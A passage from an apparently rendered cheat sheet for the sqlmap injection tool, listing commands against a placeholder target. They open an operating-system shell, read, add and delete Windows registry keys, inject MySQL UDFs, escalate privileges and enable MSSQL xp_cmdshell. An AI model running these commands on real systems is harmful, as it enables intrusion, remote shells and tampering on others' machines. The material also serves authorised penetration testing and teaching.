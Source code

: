     # PowerShell on Windows
    python sqlmap.py -u "http://target.com/page?id=1" --os-pwn
:::
:::

### Windows Registry Access

::: code-block
    # Read registry key
    python sqlmap.py -u "http://target.com/page?id=1" \
      --reg-read --reg-key "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion"

    # Add registry key
    python sqlmap.py -u "http://target.com/page?id=1" \
      --reg-add --reg-key "HKLM\\SOFTWARE\\Test" --reg-value "TestKey" --reg-data "TestData"

    # Delete registry key
    python sqlmap.py -u "http://target.com/page?id=1" \
      --reg-del --reg-key "HKLM\\SOFTWARE\\Test" --reg-value "TestKey"
:::

### Database-Specific Features

::: feature-grid
::: feature-card
#### MySQL Features

::: code-block
    # UDF injection
    python sqlmap.py -u "target" --udf-inject

    # MySQL privilege escalation
    python sqlmap.py -u "target" --priv-esc
:::
:::

::: feature-card
#### MSSQL Features

::: code-block
    # xp_cmdshell enable
    python sqlmap.py -u "target" --os-shell
